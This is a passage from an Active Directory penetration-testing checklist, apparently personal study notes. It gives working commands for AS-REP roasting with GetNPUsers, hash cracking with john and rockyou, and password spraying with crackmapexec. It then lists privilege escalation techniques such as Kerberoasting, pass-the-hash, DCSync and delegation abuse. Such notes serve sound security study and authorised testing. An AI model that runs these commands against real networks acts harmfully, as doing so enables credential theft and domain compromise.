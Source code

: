 **Once we have usernames but no passwords:**

* AS-REP Roasting
* Password Spray with crackmapexec.

#### AS-REP Roasting and Cracking:

{% code overflow="wrap" %}
```bash
python GetNPUsers.py jurassic.park/ -usersfile usernames.txt -format hashcat -outputfile hashes.asreproast

python GetNPUsers.py jurassic.park/triceratops:Sh4rpH0rns -request -format hashcat -outputfile hashes.asreproast

Get-DomainUser -PreauthNotRequired -verbose #for powerview

john --wordlist=/usr/share/wordlists/rockyou.txt hashes.asreproast #crack hash
```
{% endcode %}

#### Password Spraying:

```bash
crackmapexec smb/ldap/winrm -u users.txt -p <password> <IP>
```

Apart from these steps, check for web vulnerabilities and Windows SMB related exploits such as EternalBlue or something.

Once we have access to this, we can either:

* Regular Windows PE
* AD-related PE.

Generally, once I complete all of these AD-related Enumerations, I should have gotten access. Otherwise, I would refer to other checklists and begin again.

## **Privilege Escalation**

* Attempt Bloodhound
* Check kerberos tickets in memory.
  * Kerberoast and crack the passwords
  * Else, we can pass the ticket/hash to authenticate to other users.
* Dump and pass hashes for remote authentication or to request more tickets.
  * Password spraying of all the hashes we find.
* Pass the ticket for authentication.
* Check AS-REP vulnerabilities for users in domain on DC or other clients.
* Unconstrained delegation
* Constrained Delegation
* ACL Abuse:
  * GPO Abuse
  * ACL Misconfiguration
  * DCSync
* PrintSpooler
